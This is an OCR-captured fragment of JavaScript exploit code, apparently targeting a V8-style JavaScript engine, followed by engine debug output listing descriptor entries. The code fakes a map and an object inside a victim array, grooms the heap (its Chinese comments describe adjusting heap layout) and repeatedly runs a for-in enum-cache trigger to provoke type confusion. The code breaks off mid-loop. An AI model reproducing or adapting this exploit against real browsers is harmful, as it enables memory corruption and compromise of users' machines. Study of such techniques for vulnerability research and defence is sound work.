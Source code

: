 ```
}


function u64_to_f64(val){
    u64[0] = val;
    return f64[0];
}


function hex(str){
    return str.toString(16).padStart(8,0);
}

function logg(str,val){
    console.log("[+] "+ str + ": " + "0x" + hex(val));
}

var victim_array = new Array(0xf400);
var rw_array = new Array(0xf400);

var victim_element_start_addr = 0x00282130;
var rw_array_element_start_addr = 0x00242128;

var fake_map_addr = victim_element_start_addr + 0x1000;
var fake_obj_addr = victim_element_start_addr + 0x2000;
// 0xe3f000cf0c8:  0x000c3d01      0x32040404      0x15000842      0x0a0007ff
victim_array[0x1000 / 8] = lh_u32_to_f64(victim_element_start_addr+0x200+1,0x32040404);
victim_array[0x1000 / 8 + 1] = lh_u32_to_f64(0x15000842,0x0a0007ff);
victim_array[0x2000 / 8] = lh_u32_to_f64(fake_map_addr+1,0x000006cd);
victim_array[0x2000 / 8 + 1] = lh_u32_to_f64(rw_array_element_start_addr+1,0x3d000);

// 调整堆风水，保证target_addr_array于obj2的距离合理，这样才可以让返回的对象地址落在target_addr_array里
var pad = new Array(0x10000);

var obj1 = {};
obj1.a = 1;
var obj2 = {};
obj2.a = 1;
obj2.b = 1;
// 调整堆风水，保证target_addr_array于obj2的距离合理，这样才可以让返回的对象地址落在target_addr_array里
var target_addr_array = new Array(0x400).fill(lh_u32_to_f64(fake_obj_addr+1,fake_obj_addr+1));
var obj3= {};
obj3.a = 1;
obj3.b = 1;
obj3.c = 1;


// init enum cache
for (let i in obj3){}

function trigger(callback){
    for (let key in obj2){
        if (key == 'b'){
            callback();
            return obj2[key];
        }
    }
}

for (let i = 0; i < 0x20000; i++){
    trigger(_=>_);
    trigger(_=>_);
    trigger(_=>_);
```

  [0]: 0x224300002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x224300002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x224300002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any